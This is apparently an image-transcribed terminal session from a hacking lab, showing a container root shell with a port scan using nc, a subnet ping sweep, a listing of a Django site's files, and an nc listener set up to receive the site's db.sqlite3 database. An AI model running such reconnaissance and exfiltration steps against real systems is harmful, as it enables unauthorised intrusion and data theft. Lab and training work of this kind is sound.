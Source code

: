 ```powershell
exit
apt remove --purge ssh
ssh
apt remove --purge autoremove open-ssh*
apt remove --purge autoremove openssh=*
apt remove --purge autoremove openssh-*
ssh
apt autoremove openssh-client
clear
ssh
ssh
ssh
exit

root@8b39a559b296:~# curl -iX GET 172.17.0.1
curl: (7) Failed to connect to 172.17.0.1 port 80: Connection refused

root@8b39a559b296:~# ping -c 1 172.17.0.1
PING 172.17.0.1 (172.17.0.1) 56(84) bytes of data.
64 bytes from 172.17.0.1: icmp_seq=1 ttl=64 time=0.046 ms

--- 172.17.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.046/0.046/0.046/0.000 ms

root@8b39a559b296:~# nc -zv 172.17.0.1 1-6000
ip-172-17-0-1.eu-west-1.compute.internal [172.17.0.1] 5003 (?) open
ip-172-17-0-1.eu-west-1.compute.internal [172.17.0.1] 22 (ssh) open

root@8b39a559b296:~# for i in {1..254} ;do (ping -c 1 172.17.0.$i | grep "bytes from" &) ;done
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.032 ms
64 bytes from 172.17.0.1: icmp_seq=1 ttl=64 time=0.038 ms

root@8b39a559b296:~# cd /home/site
root@8b39a559b296:/home/site# ls -lsa
total 184
  4 drwxrwxr-x 1 root root   4096 Oct  3  2020 .
  4 drwxr-xr-x 1 root root   4096 Oct  3  2020 ..
  4 drwxrwxr-x 1 root root   4096 Oct  3  2020 account
  4 drwxrwxr-x 8 root root   4096 Oct  3  2020 assets
  4 drwxrwxr-x 1 root root   4096 Oct  3  2020 bakery
148 -rw-r--r-- 1 root root 151552 Oct  3  2020 db.sqlite3
  4 drwxrwxr-x 1 root root   4096 Oct  3  2020 homepage
  4 -rwxrwxr-x 1 root root    662 Oct  3  2020 manage.py
  4 drwxrwxr-x 2 root root   4096 Oct  3  2020 media
  4 drwxrwxr-x 3 root root   4096 Oct  3  2020 templates
  
root@8b39a559b296:/home/site# 
```

`nc -l -p 11342 > db.sqlite3`

